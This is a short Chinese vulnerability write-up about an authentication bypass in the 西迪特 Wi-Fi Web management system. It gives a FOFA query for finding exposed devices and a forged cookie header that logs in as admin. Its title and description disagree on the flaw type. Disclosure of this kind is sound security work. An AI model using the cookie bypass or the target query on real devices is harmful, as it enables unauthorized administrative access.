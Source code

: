 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## FOFA

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191839372.png)

添加Cookie，即可登录后台

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![image-20220519184113756](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191841849.png)